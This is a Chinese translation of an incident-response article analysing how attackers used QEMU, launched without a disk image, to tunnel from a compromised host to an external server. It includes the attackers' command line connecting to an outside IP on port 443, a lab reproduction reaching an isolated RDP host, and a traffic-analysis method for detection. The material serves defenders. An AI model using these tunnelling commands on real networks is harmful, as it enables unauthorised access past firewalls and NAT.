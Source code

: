 

# [翻译]使用 QEMU 进行内网穿透？ - 先知社区

\[翻译\]使用 QEMU 进行内网穿透？

- - -

翻译原文： [https://securelist.com/network-tunneling-with-qemu/111803/](https://securelist.com/network-tunneling-with-qemu/111803/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240306184933-37ddad06-dba7-1.png)

# 前言

网络攻击者在采取各种攻击步骤时往往会优先考虑合法工具，因为这些工具可以帮助他们逃避检测系统，同时将恶意软件的开发成本降至最低。网络扫描、捕获进程内存转储、窃取数据、远程文件执行，甚至加密驱动器，所有这些都可以使用可信软件来完成。为了在失陷的基础设施中维持权限并发起攻击，攻击者可以使用之前安装的恶意软件或通过公司的 RDP 服务器或企业 VPN 与员工一起连接到网络（为此，攻击者必须拥有适当权限的帐户）。连接到受攻击组织内部网络的另一种方法是使用实用工具在公司系统和失陷的服务器之间建立网络隧道或端口转发，这使得攻击者能够绕过 NAT 和防火墙来访问内部系统。本文想在这里讨论的正是这一类软件。

# 工具统计

目前有很多在两个系统之间建立网络隧道的实用工具。其中一些直连，而另一些则使用代理，隐藏攻击者服务器的 IP 地址。以下是我们在过去三年中网络应急响应时遇到的工具。

-   Stowaway
-   ligolo
-   3proxy
-   dog-tunnel
-   chisel
-   FRP
-   ngrok
-   gs-netcat
-   plink
-   iox
-   nps  
    最常用的是 ngrok 和 FRP。此类程序占攻击总数的 10%。  
    #QEMU 作为隧道工具  
    几个月前，在调查一家大公司的一起安全事件时，我们在其中一个系统内发现了不常见的恶意活动。我们对这些工件进行了分析，结果发现攻击者部署并启动了以下程序
-   ip 扫描器
-   密码、哈希值和 Kerberos 票证提取器以及 Active Directory 攻击工具
-   QEMU 硬件模拟器  
    前两个不用说了，但 QEMU 有一些问题。恶意攻击者使用 QEMU 虚拟器有什么用？  
    我们能够从受感染机器的内存中找到 QEMU 执行命令行。我们发现它是在没有 LiveCD 或磁盘映像的情况下启动的，这对于 QEMU 来说非常不寻常。这些是攻击者用来运行 QEMU 的参数：
    
    ```plain
    qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    ```
    
    其中 <ip> 是外部 IP 地址。让我们仔细看看这些参数。</ip>
-   \-m 1M：指定分配给虚拟机的 RAM 大小。在本例中为 1 MB，对于大多数操作系统来说完全不够。
-   \-netdev user,id=lan,restrict=off：创建一个名为 lan、类型为 user 的虚拟网络接口，该接口允许虚拟机通过主机网络堆栈与外界通信。limit=off 选项删除对入站和出站连接的限制。
-   \-netdev socket,id=sock,connect=<ip>:443：创建名为 sock 的套接字类型网络接口，该接口提供到指定 IP 地址和端口 443 的远程服务器的连接。</ip>
-   \-netdev hubport,id=port-lan,hubid=0,netdev=lan：向 hubid=0 的虚拟集线器添加端口，该端口链接到虚拟网络接口 lan。
-   \-netdev hubport,id=port-sock,hubid=0,netdev=sock：与上面类似，这会向链接到虚拟网络接口 sock 的虚拟集线器再添加一个端口。
-   \-ngraphic：以非 GUI 模式启动 QEMU，并带有控制台输出。  
    参数中的 IP 地址立即引起了我们的注意：它是外部的，与受攻击的公司完全无关，因此我们查阅了 QEMU 文档。我们发现 QEMU 支持虚拟机之间的连接：-netdev 选项创建可以连接到虚拟机的网络设备（后端）。众多网络设备中的每一个都由其类型定义并支持额外的选项。以下是所使用的 -netdev 值的描述。  
    这是将虚拟机连接到网络的最简单方法。流量通过主机网络堆栈，虚拟机连接到网络，就像主机上的常规应用程序一样。
    
    ```plain
    qemu-system-x86_64 -netdev user,id=mynet0 -device e1000,netdev=mynet0
    ```
    
    这里，mynet0 是网络后端 ID，e1000 是虚拟机内部的网络适配器（前端）。类似于网络集线器连接多个网络设备。

# socket

它通过网络套接字直接连接虚拟机，以创建虚拟机网络拓扑或链接在不同主机上启动的虚拟机。

# VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet3,listen=:1234 -device e1000,netdev=mynet3
```

# VM2 链接到 VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet4,connect=127.0.0.1:1234 -device 
e1000,netdev=mynet4
```

VM1 侦听端口 1234，而 VM2 连接到该端口。这就是攻击者采取的方法：他们在受感染的系统中启动了一个“客户端”，并将其连接到他们的服务器，以开放对运行“客户端”的企业网络的访问。它对受感染系统的性能几乎没有影响，因为攻击者在运行 QEMU 时既不使用磁盘映像也不使用 LiveCD。

-   我们无法准确地确定攻击者如何在自己的服务器上运行 QEMU，因此我们决定在由三个系统组成的测试环境中测试上述描述的技术。
-   InternalHost 位于网络内部，无法访问互联网，并在端口 3389 上运行 RDP 服务器。它模拟了无法访问互联网的隔离系统。
-   PivotHost 位于网络内部，但可以访问互联网。它模拟了被攻击者攻破并用于访问 InternalHost 的系统。
-   AttackerServer 托管在云端，它模拟攻击者的服务器。

我们的目标是从 AttackerServer 到达 InternalHost。下图显示了隧道的总体布局。  
[![](assets/1709874361-9565d561c7923f294744cbd548ef5756.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190526-6fbebd80-dba9-1.png)  
我们在 AttackerServer 上使用 QEMU 从 Kali Linux LiveCD 启动虚拟机。套接字类型的网络设备作为网络适配器连接到虚拟机并侦听端口 443。

```plain
qemu-system-x86_64 -boot d -cdrom kali-linux-2023.3-live-amd64.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:443
```

QEMU 的另一个副本在 PivotHost 上运行，并通过套接字网络设备连接到云中 AttackerServer 上的端口 443。我们还连接了一个用户型网络设备，通过集线器与 socket 结合。我们使用的 QEMU 启动选项与对手之前使用的类似。

```plain
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

启动后，QEMU 会建立一条从 PivotHost 到 AttackerServer（或更准确地说，到 Kali Linux VM）的网络隧道。Kali Linux 可以扫描 PivotHost 子网连接的其他系统。  
[![](assets/1709874361-25044c3a980ccc80eb6ad7d817af89c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190923-fcf0545c-dba9-1.png)  
扫描定位到 InternalHost，IP 地址为 192.168.56.109。Nmap 程序显示端口 3389 已打开。我们尝试使用 RDP 连接到 InternalHost。  
[![](assets/1709874361-a5f2956f4ddb4d7853d5651f55f8fafa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191022-2019dec6-dbaa-1.png)  
因此，我们能够确定这种实现内网穿透的技术确实是有效的。除了上述类型的网络设备之外，QEMU 还支持其他几种网络设备，这些设备也可能被恶意攻击者利用。

# QEMU 网络流量分析

QEMU 在传输流量时不使用任何额外的加密。它传输未加密的封装数据包：发送到服务器的应用程序级数据包数据包含封装以太网帧的大小（4 字节，下图中黄色轮廓），后面是以太网帧本身（红色轮廓）。  
[![](assets/1709874361-264325bed15cbf460e3e815b146098d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191154-572187e8-dbaa-1.png)  
上图中封装的以太网帧的大小为 89 (0x59) 字节。该值后面紧跟着封装的以太网帧。  
有了流量转储（在这种情况下已在 PivotHost 上拦截），我们可以通过删除前 58 个字节来获取封装的流量（对于 TCP：14 个字节用于以太网 + 20 个字节用于 IP + 20 个字节用于 TCP 标头 + 4 个内部字节数据包大小）。从 PCAP 文件中删除所有不包含封装流量的数据包后，可以使用 Wireshark 软件包中的 editcap 实用程序来完成此操作。

```plain
editcap.exe -L -C 58 original.pcap extracted_traffic.pcap
```

结果是一个 PCAP 文件，其中包含通过隧道发送的流量。  
[![](assets/1709874361-06f789115d28aaeaf1eb9f180bf979a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191404-a430a78a-dbaa-1.png)

# 结论

恶意攻击者使用合法工具执行各种攻击步骤对于应急响应专业人员来说并不罕见。然而，我们必须承认，攻击者有时会对不太可能的软件想出巧妙的应用，就像 QEMU 的情况一样。实在是太精彩了 666。
